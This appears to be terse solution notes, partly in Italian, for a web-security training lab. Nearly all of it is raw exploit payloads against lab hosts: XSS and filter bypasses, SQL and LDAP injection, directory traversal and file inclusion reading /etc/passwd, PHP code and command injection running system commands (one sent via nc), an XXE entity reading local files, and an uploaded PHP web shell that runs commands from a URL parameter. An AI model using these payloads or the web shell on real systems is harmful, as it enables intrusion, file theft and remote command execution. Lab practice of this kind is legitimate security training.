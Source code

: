 # XSS

## 1

```html
http://192.168.1.7/xss/example1.php?name=<script>alert(1)</script>
```

## 2

```html
http://192.168.1.7/xss/example2.php?name=<SCRIPT>alert(1)</SCRIPT>
//usare il maiuscolo
```

## 3

```html
<scr<script>ipt>alert(1)</scr</script>ipt>

```

## 4

```html
<body onload="alert(1)">

<body onload=%27alert(1)%27>

<img src='zzzz' onerror='alert(1)' />
```

## 5

```html
<script>prompt(1)</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>

```

## 6

```jsx
";alert(1);//
```

## 7

```lua
';alert(1);//
```

## 8

```jsx
/xss/example8.php/"><script>alert(1)</script>

```

## 9

# SQLI

## 1

```c
http://192.168.1.17/sqli/example1.php?name='OR'1'='1
```

## 2

```jsx
?name=root%27/**/or/**/%271%27=%271%27%23
?name=root'%09OR%091=1%09%23
192.168.1.7/sqli/example3.php?name=root'or'1'='1
//non mettere gli spazi e usare ''
```

## 3

```lua
192.168.1.7/sqli/example3.php?name=root'or'1'='1
```

## 4

```lua
http://192.168.1.7/sqli/example4.php?id=1 or 1=1order=name`DESC%23
//mettere gli spazi e non usare ''
```

## 5

```jsx
id=2 or 1=1
```

## 6

```jsx
id=2 or 1=1
```

## 7

```jsx
id=2 %0A or 1=1 
```

## 8

```jsx
order=name`DESC%23
```

## 9

```jsx
http://192.168.0.20/sqli/example9.php?order=if%280,name,age%29

http://192.168.0.20/sqli/example9.php?order=IF(0,name,age)
```

## File include

1

```jsx
?page=../../../../../../../../etc/passwd
```

2

```jsx
?page=../../../../etc/passwd%00
```

## Directory traversal

### 1

```jsx
% wget -O - 'http://vulnerable/dirtrav/example1.php?file=../../../../../../../etc/passwd'
oppure
% wget -O - 'http://[IP/localhost]/dirtrav/example1.php?file=../../../../../../../etc/passwd'
```

### 2

```lua
wget -O - http://192.168.79.162/dirtrav/example2.php?file=/var/www/files/../../../../etc/passwd
```

### 3

```jsx
wget -O - http://192.168.79.162/dirtrav/example3.php?file=../../../../etc/passwd%00.png
```

## Code injection

### 1

```lua
http://192.168.1.7/codeexec/example1.php?name=";system('uname -a');//
```

2

```jsx
http://192.168.1.7/codeexec/example2.php?order=id);}system(%22cat%20/etc/passwd%22);//
```

3

```lua
http://192.168.1.7/codeexec/example3.php?new=system(%22cat%20/etc/passwd%22)&pattern=/lamer/e&base=Hello%20lamer
```

### 4

```jsx
http://192.168.1.7/codeexec/example4.php?name=hacker%27.system(%22cat%20/etc/passwd%22).%27
```

## command injection

1

```lua
http://192.168.1.7/commandexec/example1.php?ip=%20;%20cat%20/etc/passwd
```

2

```lua
http://192.168.1.7/commandexec/example2.php?ip=127.0.0.1%0acat%20/etc/passwd
```

### 3

```bash

echo -e "GET http://127.0.0.1/commandexec/example3.php?ip=127.0.0.1|uname+-a HTTP/1.0\r\n" | nc 127.0.0.1 80

```

## LDAP

### 1

```bash
http://192.168.1.7/ldap/example1.php?username=admin;&password=admin
```

### 2

```bash
http://192.168.1.7/ldap/example2.php?name=admin;&password=admin
```

### 3

```bash
username=hacker)(cn=*)%00
```

## file upload

### 1

```lua
http://192.168.1.7/upload/images/dio.php?cmd=cat%20/etc/passwd

nome file x.php
<?php
system($_GET['cmd']);
?>
```

### 2

```lua
http://192.168.1.7/upload/images/dio.php3?cmd=ls

nome file x.php3
<?php
system($_GET['cmd']);
?>
```

## XML

1

```lua
http://192.168.1.7/xml/example1.php?xml=%3C!DOCTYPE%20root%20[%3C!ENTITY%20hacker%20SYSTEM%20%22file:///etc/passwd%22%3E]%20%3E%3Croot%3E%26hacker%3b%3C/root%3E
```

2

```lua
http://192.168.1.7/xml/example2.php?name=admin%27]/parent::*/password%00
```
